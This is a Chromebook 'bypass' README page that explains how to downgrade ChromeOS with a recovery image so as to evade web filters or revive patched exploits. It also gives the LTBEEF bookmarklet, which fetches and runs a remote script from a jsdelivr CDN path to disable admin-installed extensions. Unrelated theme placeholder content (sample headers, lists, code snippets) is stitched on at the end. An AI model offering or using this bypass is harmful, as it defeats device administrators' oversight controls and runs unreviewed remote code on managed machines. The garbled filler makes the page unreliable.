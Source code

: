 # Chrome Bypasses
Avoid Internet Censorship

<a href="https://www.discord.gg/nullscafe"> **Join the Discord** </a>
    All kinds of bypasses


<a href="https://www.discord.gg/gCgcTUGzaF"> **Support Discord** </a>
    Support for different types of bypasses

# Downgrading

**Downgrading can be usefull in bypassing web filters or performing exploits that have been patched.**

**Requirements:** 

**Personal computer**
              
 **Flash drive with 8 gigabytes of storage**

<a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en"> **Chromebook Recovery Utility Extension** </a>
              
**A Brain**


1 Go to **chrome://version** on your Chromebook and find what board your Chromebook is on. Take a note of it.

<img src="https://github.com/frizys/fruvs/blob/main/docs/assets/board.png?raw=true" alt="board.png"/>

2 Go to <a href="https://www.chrome100.dev/"> **Chrome100.dev** </a> and scroll down until you find your board. Click on it and find the version you want to downgrade to.

3 Download the file for the version you want to install.

4 Plug in your flash drive to your personal computer and format it to FAT32 file system.

5 Install the Chromebook Recovery Utility Extension from the Chrome Web Store.

<a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en"> **Chromebook Recovery Utility Extension** </a>

6 Open the extension by clicking on it. Click the gear icon and then press "Use local image" and find the file you downloaded.

<img src="https://github.com/frizys/fruvs/blob/main/docs/assets/chrome%20rec%20utility%20crop.png?raw=true" alt="chrome rec utility crop.png"/>

7 Insert your flash drive and start the process of creating a recovery drive by following the instructions on the extension.

8 Once the recovery drive is created, unplug it and prepare your Chromebook. Make sure it is at least at 30% battery charge for safety.

9 Power off your Chromebook and remove any external devices.

10 Press and hold the Esc and Refresh keys, then press the Power button to turn on your Chromebook.

11 When the "Chrome OS is missing or damaged" screen appears, insert the recovery drive into your Chromebook.

12 Follow the on-screen instructions to complete the recovery process and install the desired version of Chrome OS.









# LTBEEF

LTBEEF is a bookmarklet bypass that when used will turn
off any admin install extension 
```
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```
To use this bookmarklet copy the code above and past it into your bookmark bar then you'll  need to go to <a href="https://chrome.google.com/webstorex"> **This Site** </a>. When you get to that site click the bookmarklet you just made and turn off all of the extensions you want


[LTBEEF](./another-page.html).
## Header 2

> This is a blockquote following a header.
>
> When something is important enough, you do it even if the odds are not in your favor.

### Header 3

```js
// Javascript code with syntax highlighting.
var fun = function lang(l) {
  dateformat.i18n = require('./lang/' + l)
  return true;
}
```

```ruby
# Ruby code with syntax highlighting
GitHubPages::Dependencies.gems.each do |gem, version|
  s.add_dependency(gem, "= #{version}")
end
```

#### Header 4

*   This is an unordered list following a header.
*   This is an unordered list following a header.
*   This is an unordered list following a header.

##### Header 5

1.  This is an ordered list following a header.
2.  This is an ordered list following a header.
3.  This is an ordered list following a header.


*   Item foo
*   Item bar
*   Item baz
*   Item zip

### And an ordered list:

1.  Item one
1.  Item two
1.  Item three
1.  Item four

### And a nested list:

- level 1 item
  - level 2 item
  - level 2 item
    - level 3 item
    - level 3 item
- level 1 item
  - level 2 item
  - level 2 item
  - level 2 item
- level 1 item
  - level 2 item
  - level 2 item
- level 1 item

### Small image

![Octocat](https://github.githubassets.com/images/icons/emoji/octocat.png)

### Large image

![Branching](https://guides.github.com/activities/hello-world/branching.png)


### Definition lists can be used with HTML syntax.

<dl>
<dt>Name</dt>
<dd>Godzilla</dd>
<dt>Born</dt>
<dd>1952</dd>
<dt>Birthplace</dt>
<dd>Japan</dd>
<dt>Color</dt>
<dd>Green</dd>
</dl>

```
Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
```

```
The final element.
```

